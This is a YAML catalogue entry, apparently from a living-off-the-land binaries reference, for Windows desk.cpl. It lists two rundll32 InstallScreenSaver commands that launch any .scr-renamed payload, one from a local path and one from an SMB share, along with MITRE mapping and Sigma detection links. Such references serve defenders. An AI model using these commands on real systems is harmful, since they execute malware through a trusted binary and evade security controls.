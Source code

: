 ```yaml
---
Name: Desk.cpl
Description: Desktop Settings Control Panel
Author: Hai Vaknin
Created: 2022-04-21
Commands:
  - Command: rundll32.exe desk.cpl,InstallScreenSaver C:\temp\file.scr
    Description: Launch an executable with a .scr extension by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
  - Command: rundll32.exe desk.cpl,InstallScreenSaver \\127.0.0.1\c$\temp\file.scr
    Description: Launch a remote executable with a .scr extension, located on an SMB share, by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11    
Full_Path:
  - Path: C:\Windows\System32\desk.cpl
  - Path: C:\Windows\SysWOW64\desk.cpl
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_new_src_file.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_installscreensaver.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/registry/registry_set/registry_set_scr_file_executed_by_rundll32.yml
Resources:
  - Link: https://vxug.fakedoma.in/zines/29a/29a7/Articles/29A-7.030.txt
  - Link: https://twitter.com/pabraeken/status/998627081360695297
  - Link: https://twitter.com/VakninHai/status/1517027824984547329
  - Link: https://jstnk9.github.io/jstnk9/research/InstallScreenSaver-SCR-files
Acknowledgement:
  - Person: Rafael S Marques
    Handle: '@pegabizu'
  - Person: Pierre-Alexandre Braeken
    Handle: '@pabraeken'
  - Person: hai
    Handle: '@VakninHai'
  - Person: Christopher Peacock
    Handle: '@SecurePeacock'
  - Person: Jose Luis Sanchez
    Handle: '@Joseliyo_Jstnk'
---
```

